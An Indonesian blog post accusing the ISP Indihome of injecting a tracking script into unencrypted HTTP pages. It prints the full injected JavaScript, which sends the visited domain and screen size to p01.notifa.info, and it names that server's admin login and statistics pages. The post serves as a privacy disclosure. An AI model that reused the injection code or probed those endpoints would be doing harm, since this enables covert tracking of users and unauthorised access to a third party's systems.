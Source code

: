 ```yaml
---
published: true
---
```

## Derita Pelanggan Indihome, Sudah Bayar Datanya Malah Dicuri

Indihome adalah salah satu penyedia layanan internet terbesar di Indonesia. Akhir 2019 setidaknya mereka memiliki 7 juta pelanggan yang tersebar di seluruh Indonesia. Tahun 2020 ini mereka menargetkan memiliki 8,3 juta pelanggan. Total pendapatan perusahaan BUMN ini juga fantastis, setiap tahunnya 18 Triliun. Dibalik semua pencapaian itu, Indihome selama ini dikenal sebagai penyedia layanan internet dengan kualitas layanan yang paling banyak mendapatkan keluhan. Keluhan itu sendiri sering kita lihat di berbagai media sosial yang dibagikan oleh para pelanggan mereka.

Saya sendiri juga menggunakan Indihome untuk internet di rumah, karena tak ada pilihan lain. Saat ini rumah saya hanya terjangkau layanan milik Indihome. Setelah menjadi pelanggan Indihome sekian tahun, saya merasakan berbagai macam gangguan yang saya dapatkan selama berlangganan. Setidaknya ketika tulisan ini ditulis, saya akan menjabarkan gangguan yang saya dapatkan yang menurut saya adalah perbuatan yang melanggar hukum. /

### Tracker Untuk Mencuri Browsing History Pengguna

Saya menggunakan kata "mencuri" karena mengambil sesuatu tanpa izin sangat tepat disebut mencuri. Selain ini dilakukan secara diam-diam, kebanyakan orang awam pasti tidak menyadari hal ini. Jika kamu berlangganan Indihome di rumah, ketika kamu mengunjungi sebuah website yang belum menggunakan SSL atau tepatnya masih menggunakan http belum https, Indihome akan mengambil browsing history milik kamu ketika kamu mengunjungi website tersebut. Penjelasannya dengan contoh kasus sebagai berikut :

Saya sedang mencari sebuah tutorial di Google menggunakan kata kunci "penyebab bulu kucing kusam", setelah itu google menampilkan artikel berikut ini http://www.petnyaku.com/health/dari-kondisi-bulu-bisa-diketahui-kucing-memiliki-masalah-kesehatan/, ketika saya mengunjungi website tersebut, karena belum menggunakan SSL (masih http) Indihome kemudian bisa menyisipkan sebuah script yang berguna untuk mencuri browsing history milik kita. Ketika kamu view-source website yang kamu kunjungi tersebut, kita akan menemukan script seperti berikut ini di bagian paling bawah :

```javascript
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KILNdTu4aXhNvLHVzbE%2fcmJIngqm1SZDgEuphLBm%2f%2f4J1tqyuJYFIkMo%2fASaCza7wmTnLDVhjapRu7oWDCCMdyke7%2bhuxVZH51%2fuUDPDOXYbO3OvmkgHxYCfjjwMLv7OAk2mniAERkIHP0HfTLqo6QXe3pw52b5QLmRu4fOIgzvm88MQ6IJOBTOIPNiJCOi6Chsi9XyFgUfHfgBC17rl8mNyhSAjcshFZFnBd%2ba9uZTBebbZLfKrTdu8upidxRX7Aa3SKTNOaaXkLXkbfgIcB1BZe1i%2f35C0ffGwbfZQzmIjYUmbKvNvzknUAoNu40XCBZM9wBW721NIq4fB0g%2fcyvrUfF3XKmEhpgjeDdA1BzLdrOJL5NFPM%2bsCXDRxhkd4NSkSlNY7H%2bE9qQGWSapNJb3lYnA%2f5RDQqkvOil6xgADRcXjy2bSgJgLgfXC3mH9QMnKPPXBB%2b98E%2bFrOLIh1WtFm2vLLLq6zXs4lMXN%2bi45r%2bTzjQMoMxW5kHIYK%2f8jAJI%2fn%2fx7JgQu56qEc0fTuMy%2bAFXUfdQhfAznNQmIkZE6h9G8Jzze%2fGKPccenLrp3aPzilW%2bjvA%2bb6YWYD4q%2bVNk2fOlg6GYynzBrTpzexxI6BXqmN18k4ZShMLXrN85aeqKg%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
```
Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome.
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :
![indihome1.png]({{site.baseurl}}/images/indihome1.png)

Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome.
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :

```javascript
http://p01.notifa.info/3fsmd3/request?id=1&enc=9UwkxLgY9&params=4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KIKtVIeBXVsA20nWKYcnall52ezULp%2fmcTfNfFan0cuYiikcLCpeACUzm1BNnnttoND4zO0lWiBKmHrmr%2bi0d90xJX8mWy7ZHbcj%2fnUElz3UxVDGSMsk9D8IFPr9ZDr6yQpVB2XSlCgjPMNQqcsjqDmJdgB5HOfuQqM4QVdagHG06ugiNYOHvvZcrSqDU8hd%2bXAoWDzREWfoBmvPR8TGobmg2mbp3lMaVRLp8jIL4%2fRQZGXSBrQ9CvV4%2f2IHJYWvdhQC3l%2fzv%2fvT5Aq8kWuJ4LweWoL0DYhLQJ1Rwm5J8J%2btwOOdma5pOSegNhOqAvJjvR5YJ0aaAgNKadpheMvCbF2yLm%2fn2iWdduS7%2bimKg%2bS5CGCTi3Kpo9Ng24YpdQdyN%2fzLG1ipRo38TJ8ongnstvlpR9Kj9hqpSEqwka%2fxjR%2btvRWQjT19zs5MsP3xXji9qFgAIxM6CBoQbxS21AYbuhVE3PJ8TpV53ccq6LpRa%2f5d%2bRgKoCygtm%2bH5pEvgrCgPtElofFWiLUs3b6NUtmI94nuv%2fAjnfYGtj837edhisK0daWSvke8IjzwChxw2%2bJETgU8e5qqlLCRaHOuJcb1y%2fni8v%2bUdts%2fbjPfa0xlCPa2%2bm%2bKfkojGb9dFiiXan3VK3w%3d&idc_r=61826754674&domain=www.petnyaku.com&sw=2304&sh=1296
```

Beberapa parameter diatas berguna untuk mengambil browsing history dan juga resolusi layar perangkat yang kamu gunakan. 

-Website yang kamu kunjungi

```javascript
domain=www.petnyaku.com
```

-Resolusi layar

```javascript
sw=2304&sh=1296
```

Jadi setiap kali kamu mengunjungi sebuah website yang belum menggunakan SSL (masih http) maka Indihome dengan leluasa akan mengambil data website yang kamu kunjungi tersebut. 

### Dibalik p01.notifa.info

Karena saya merasa cukup terganggu da juga penasaran, saya kemudian mencari tau apa yang ada dibalik website tracker milik Indihome ini hanya bermodalkan Google. Kemudian saya mendapatkan 2 link berikut :

Ketika saya mengakses http://p01.notifa.info/3fsmd3/wsadmin/auth/login, halaman tersebut merupakan tempat untuk login internal yang mungkin digunakan content management.

Lalu link berikutnya adalah http://p01.notifa.info/info/apc/ :
Halaman ini lebih menarik karena berisi statistik dan juga struktur kode yang digunakan untuk website tracker ini. Pada tanggal 14 September 2020 03:00 WIB, pada tab status total hits mencapai angka 26,681,371,055 (26,6 miliar).
